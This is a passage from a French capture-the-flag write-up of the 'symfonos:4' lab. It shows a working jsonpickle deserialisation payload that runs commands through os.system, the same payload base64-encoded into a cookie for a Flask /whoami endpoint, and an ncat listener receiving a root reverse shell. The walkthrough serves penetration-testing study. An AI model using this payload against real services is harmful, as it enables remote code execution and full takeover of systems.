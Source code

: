 Ma première logique a été de créé un script `jsonpickle.py` dans le dossier `/opt/code` mais ça ne fonctionnait pas, sans doute car le code est déjà chargé par l'appli (éventuellement avec un reboot ça pourrait fonctionner).

Je me suis penché alors sur le module `jsonpickle`. Le module `pickle` de Python est connu pour être dangereux s'il désérialise des données non sûres, il y a fort à parier que ce soit la même chose pour `jsonpickle`.

Effectivement sur exploit-db je trouve une astuce pour créer un jsonpickle permettant l'exécution de commande : [python jsonpickle 2.0.0 - Remote Code Execution - Multiple remote Exploit](https://www.exploit-db.com/exploits/49585)

Je parviens à obtenir quelque chose de sympathique de cette façon :

```python
>>> jsonpickle.decode('{"1": {"py/repr": "os/os.system(chr(47)+chr(116)+chr(109)+chr(112)+chr(47)+chr(120))"}, "2": {"py/id": "67"}}')
sh: 1: /tmp/x: not found
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/local/lib/python2.7/dist-packages/jsonpickle/unpickler.py", line 41, in decode
    return context.restore(data, reset=reset, classes=classes)
  File "/usr/local/lib/python2.7/dist-packages/jsonpickle/unpickler.py", line 150, in restore
    value = self._restore(obj)
  File "/usr/local/lib/python2.7/dist-packages/jsonpickle/unpickler.py", line 207, in _restore
    return restore(obj)
  File "/usr/local/lib/python2.7/dist-packages/jsonpickle/unpickler.py", line 514, in _restore_dict
    data[k] = self._restore(v)
  File "/usr/local/lib/python2.7/dist-packages/jsonpickle/unpickler.py", line 207, in _restore
    return restore(obj)
  File "/usr/local/lib/python2.7/dist-packages/jsonpickle/unpickler.py", line 288, in _restore_id
    return self._objs[idx]
TypeError: list indices must be integers, not unicode
```

Ici je fais exécuter le fichier `/tmp/x`. J'ai eu à changer ça pour `/dev/shm/x` car l'appli Flask be semblait pas voir mon fichier dans `/tmp` (sans doute la magie noire de `systemd`).

Pour l'exploitation il faut encoder le payload en base64 puis le donner comme cookie à l'endpoint `/whoami` :

```bash
curl -D- http://127.0.0.1:8080/whoami -H "Cookie: username=eyIxIjogeyJweS9yZXByIjogIm9zL29zLnN5c3RlbShjaHIoNDcpK2NocigxMDApK2NocigxMDEpK2NocigxMTgpK2Nocig0NykrY2hyKDExNSkrY2hyKDEwNCkrY2hyKDEwOSkrY2hyKDQ3KStjaHIoMTIwKSkifSwgIjIiOiB7InB5L2lkIjogIjY3In19;"
```

Et kikiçé qui a un beau shell root qui ride de l'hippocampe ? :-D

```bash
$ ncat -l -p 7777 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 192.168.56.115.
Ncat: Connection from 192.168.56.115:34120.
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
proof.txt
cat proof.txt

        Congrats on rooting symfonos:4!
 ~         ~            ~     w   W   w
                    ~          \  |  /       ~
        ~        ~        ~     \.|./    ~
                                  |
                       ~       ~  |           ~
```
